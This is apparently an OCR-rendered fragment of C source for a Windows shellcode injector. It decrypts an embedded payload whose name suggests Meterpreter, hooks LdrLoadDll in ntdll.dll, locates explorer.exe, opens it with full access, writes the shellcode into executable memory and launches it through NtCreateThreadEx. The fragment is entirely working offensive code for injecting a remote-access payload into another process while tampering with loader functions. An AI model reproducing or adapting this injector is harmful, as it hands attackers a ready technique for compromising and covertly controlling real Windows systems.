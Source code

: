 ```
    {
        printf("[!] Failed to decrypt shellcode\\n");
        return -1;
    }

    // get addresss of where the hook should be
    lpAddr = (LPVOID)GetProcAddress(GetModuleHandle("ntdll.dll"), "LdrLoadDll");

    // save the original bytes
    memcpy(OriginalBytes, lpAddr, 13);

    // set the hook
    HookLoadDll(lpAddr);

    // find the pid of explorer.exe
    dwPid = FindExplorer();
    if (dwPid == -1)
    {
        printf("[!] Failed to find process\\n");
        return -1;
    }

    // set the pid to get a handle to
    uPid.UniqueProcess = (HANDLE)dwPid;
    uPid.UniqueThread = NULL;

    // get a handle on the process
    InitializeObjectAttributes(&ObjectAttributes, NULL, 0, NULL, NULL);
    NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &ObjectAttributes, &uPid);

    // alloc memory
    NtAllocateVirtualMemory(hProcess, &lpBuffer, 0, &encmeter_bin_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write the shellcode to the process
    NtWriteVirtualMemory(hProcess, lpBuffer, encmeter_bin, encmeter_bin_len, NULL);

    // start the shellcode
    NtCreateThreadEx(&hThread, 0x1FFFFF, NULL, hProcess, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, FALSE, NULL, NULL, NULL, NULL);
    if (hThread == INVALID_HANDLE_VALUE)
    {
        printf("[!] Failed to inject shellcode\\n");
        return -1;
    }

    printf("[+] Successfully injected shellcode\\n");

    return 0;
}
```
